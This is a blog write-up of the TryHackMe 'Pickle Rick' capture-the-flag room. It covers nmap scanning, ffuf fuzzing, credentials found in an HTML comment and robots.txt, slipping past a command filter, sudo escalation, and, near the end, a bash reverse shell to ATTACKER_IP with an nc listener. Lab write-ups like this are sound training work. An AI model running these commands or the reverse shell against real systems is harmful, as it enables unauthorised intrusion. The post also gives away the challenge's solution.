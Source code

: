 ```yaml
---
layout: post
title: Pickle Rick CTF
date: 2025-06-20 23:47 +0300
categories: [CTF,THM]
tags: [CTF,THM, write-up]
---
```


# Pickle Rick CTF
link: https://tryhackme.com/room/picklerick

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.


Let's start:\
the ip of my Target Machine is: `10.10.54.36` (yours will be different).

so let's start with a [NMAP] scan:
`nmap -sS -sV -O -v 10.10.54.36`

Explanation: \
- -sS - SYN scan is the default and most popular scan option, It can be performed quickly, It is also relatively unobtrusive and stealthy since it never completes TCP connections
- -sV - Enables version detection
- -O - Enables OS detection
- -v - Increases the verbosity level, causing Nmap to print more information about the scan in progress.

Result:
![scan](https://i.imgur.com/QXAEZGa.png)

As we can see from the scan

Open Ports:
```terminal
22/tcp ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

OS:
`OS details: Linux 4.15`

So with 80 port open let's open a browser and go to `10.10.54.36:80` 
![first look](https://i.imgur.com/w29lBzP.jpeg)

First let's check if there is something hidden in the html by opening dev-tools:

![https://i.imgur.com/BSmwRua.png](https://i.imgur.com/BSmwRua.png)
There is a comment in the html giving us a username:
`Username: R1ckRul3s`

Now that we have a user we need to find a password (maybe crack it or brut-force it?) and something to login to.

Let's check if there is more routes for `http://10.10.54.36:80/`, im useing [ffuf]:
`ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.54.36:80/FUZZ`

Explanation:
- -w - a word list
- -u - Target URL

ffuf will go through the words in the word list and use them where the `FUZZ` is, and print successful requests.

Result:
![ffuf](https://i.imgur.com/vBhDtFA.png)
(some alternative tools: gobuster, dirb)


As we can see we have new leads:
```terminal
/assets (200 OK)                  
/.hta (403 Forbidden)                  
/.htaccess (403 Forbidden)              
/.htpasswd (403 Forbidden)               
/index.html (200 OK)              
/robots.txt (200 OK)             
/server-status (403 Forbidden)
```
\
Let's check out `/robots.txt`:
![robots.txt](https://i.imgur.com/eRM88zo.png)
So in the [robots.txt] we got `Wubbalubbadubdub` but we still not sure what to use it for and where....
maybe it's a password?

After trying to use this to connect to the [SSH] with: `ssh R1ckRul3s@10.10.54.36` I can see that the SSH is configured to use keys instead of passwords.

We also see that `/assets` is open let's go there:
![assets](https://i.imgur.com/t4h9apQ.png)

We can see a list of files
checking those file data using [hex editor] did not yeeld any new leads
also there was no [Steganography] in those pictures.

If those pictures are here, there must be a use for them (like `rickandmorty.jpeg` we see at the index) and one of them is a hint for a hidden route ffuf didnt found: `/portal.php` that redirect us to `login.php` 

![portal](https://i.imgur.com/sKf37e7.png)

Let's try the username and the string we found in the robots.txt
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

And we are in :D !!!
![command panel](https://i.imgur.com/IhkUzDf.png)

We get a command panel that let us run command in the machine
also can see multiple tabs in the Rick Portal, but when we try to go to them we get denied...

Let's try to see what around us with `ls`:
```terminal
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
We can see all the files in this folder and there it is the first flag `Sup3rS3cretPickl3Ingred.txt`!

Let's print it with `cat Sup3rS3cretPickl3Ingred.txt`

But not so fast seems like that command is disabled!
![fail](https://i.imgur.com/CuyBThz.png)

Let's try to print it using other methods:

```
head Sup3rS3cretPickl3Ingred.txt - disabled
tail Sup3rS3cretPickl3Ingred.txt - disabled
more Sup3rS3cretPickl3Ingred.txt - disabled
less Sup3rS3cretPickl3Ingred.txt - success!!
------------
some more fun ways:
awk '{ print }' Sup3rS3cretPickl3Ingred.txt
sed '' Sup3rS3cretPickl3Ingred.txt
grep -m1 "" Sup3rS3cretPickl3Ingred.txt
cut -c1- Sup3rS3cretPickl3Ingred.txt
nl Sup3rS3cretPickl3Ingred.txt
```

**~And we got the first flag (What is the first ingredient that Rick needs?)~**

Also we see a file name `clue.txt` let see what clue we got:
```terminal
$> sed '' clue.txt

Look around the file system for the other ingredient.
```
So we now the rest of the ingredient (flags) are around the system

After looking around using `ls /...` we found the second ingredient in `/home/rick/` 
```terminal
$> ls /home/rick/
second ingredients
```

And using `less '/home/rick/second ingredients'` 

**~we got the second flag (What is the second ingredient in Rick’s potion?)~**

After looking around more the only place left to look at is `/root/` but we dont have the permissions to go in....

Let's give `sudo` a try: 
```terminal
$> sudo ls /root/
3rd.txt
snap
```
And it worked we have here the third flag!!

`sudo less /root/3rd.txt`

**~we got the third flag (What is the last and final ingredient?)~**

And that's it we helped Rick make his potion and transform himself back into a human from a pickle.


## Alternative way to solve the CTF

After getting into Rick Portal we can generate a [reverse shell] to make our life easer using our own shell:


In our machne let's create a listener using:
`nc -lvnp PORT`

And now let's send the [reverse shell] to the server

`bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'`

And we get a [reverse shell] to the machine that mean we don't have and limitations from the Rick Portal
```
/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
~first flag~

/var/www/html$ cat '/home/rick/second ingredients'
~second flag~

/var/www/html$ sudo cat /root/3rd.txt
~third flag~
```

\
Hope this was helpful and fun for you to read :)\
Shai Shaked.